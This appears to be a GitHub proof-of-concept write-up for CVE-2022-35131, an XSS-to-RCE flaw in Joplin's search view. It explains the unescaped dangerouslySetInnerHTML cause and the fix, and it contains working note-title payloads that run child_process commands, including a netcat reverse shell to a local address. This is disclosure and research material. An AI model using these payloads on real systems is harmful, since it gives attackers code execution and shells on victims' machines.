 # Joplin CVE-2022-35131
XSS leading to RCE in Joplin affecting version 2.8.8 and earlier. Tested and works on Windows and Linux.

Reported and fixed: 2022-06
## Technical overview

1. Create a note with javascript payload as title (POC:s bellow)
2. Press `Ctrl+P` and search for something in the note or title
3. Payload is executed when shown in the search result
4. Remote code execution can be achieved by sharing the notebook

Problem is because `dangerouslySetInnerHTML` is used with unescaped user input in `GotoAnything.tsx` line `509`. Fix by escaping user input.
```javascript
return (
  <div key={item.id} className={isSelected ? 'selected' : null} style={rowStyle} onClick={this.listItem_onClick} data-id={item.id} data-parent-id={item.parent_id} data-type={item.type}>
    <div style={style.rowTitle} dangerouslySetInnerHTML={{ __html: titleHtml }}></div>
    {fragmentComp}
    {pathComp}
  </div>
);
```


## POC
Space can not be used in payload, but encoded space `\x20` can be used.

Example tile payloads:
```javascript
# Payload 1 (Linux)
zzz<img src =q onerror=eval("require('child_process').exec('mate-calc');");>

# Payload 2 (Windows)
zzz<img src =q onerror=eval("require('child_process').exec('calc.exe');");>

# Reverse shell (Linux)
zzz<img src =q onerror=eval("require('child_process').exec('/bin/nc\x20-e\x20/bin/bash\x20127.0.0.1\x205000');");>
```

Search for `zzz` to execute payload.
